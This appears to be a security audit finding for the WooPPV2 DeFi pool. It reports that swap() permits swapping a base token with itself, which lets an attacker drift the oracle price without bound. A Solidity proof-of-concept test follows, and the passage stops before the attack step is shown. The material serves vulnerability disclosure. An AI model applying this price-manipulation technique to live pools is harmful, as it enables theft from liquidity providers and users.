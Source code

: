 ````WooPPV2.swap()```` doesn't forbid the case that ````fromToken == toToken == baseToken````, attackers can make any ````baseToken````'s price unboundedly drifting away by swapping with self.

contract PriceManipulationAttackTest is Test {
    WooracleV2_2 oracle;
    WooPPV2 pool;
    TestUsdtToken usdt;
    TestWbctToken wbtc;
    address evil = address(0xbad);

    function setUp() public {
        usdt = new TestUsdtToken();
        wbtc = new TestWbctToken();
        oracle = new WooracleV2_2();
        pool = new WooPPV2(address(usdt));

        // parameters reference: Integration_WooPP_Fee_Rebate_Vault.test.ts
        pool.setMaxGamma(address(wbtc), 0.1e18);
        pool.setMaxNotionalSwap(address(wbtc), 5_000_000e6);
        pool.setFeeRate(address(wbtc), 25);
        oracle.postState({_base: address(wbtc), _price: 50_000e8, _spread: 0.001e18, _coeff: 0.000000001e18});
        oracle.setWooPP(address(pool));
        oracle.setAdmin(address(pool), true);
        pool.setWooracle(address(oracle));

        // add some initial liquidity
        usdt.mint(address(this), 10_000_000e6);
        usdt.approve(address(pool), type(uint256).max);
        pool.depositAll(address(usdt));

        wbtc.mint(address(this), 100e8);
        wbtc.approve(address(pool), type(uint256).max);
        pool.depositAll(address(wbtc));
    }

    function testMaxPriceDriftInNormalCase() public {
        (uint256 initPrice, bool feasible) = oracle.price(address(wbtc));
        assertTrue(feasible);
        assertEq(initPrice, 50_000e8);

        // buy almost all wbtc in pool
        usdt.mint(address(this), 5_000_000e6);
        usdt.transfer(address(pool), 5_000_000e6);
        pool.swap({
            fromToken: address(usdt),
            toToken: address(wbtc),
            fromAmount: 5_000_000e6,
            minToAmount: 0,
            to: address(this),
            rebateTo: address(this)
        });

        (uint256 pastPrice, bool feasible2) = oracle.price(address(wbtc));
        assertTrue(feasible2);
        uint256 drift = ((pastPrice - initPrice) * 1e5) / initPrice;
        assertEq(drift, 502); // 0.502%
        console2.log("Max price drift in normal case: ", _toPercentString(drift));
    }

    function testUnboundPriceDriftInAttackCase() public {
        (uint256 initPrice, bool feasible) = oracle.price(address(wbtc));
        assertTrue(feasible);
        assertEq(initPrice, 50_000e8);

````
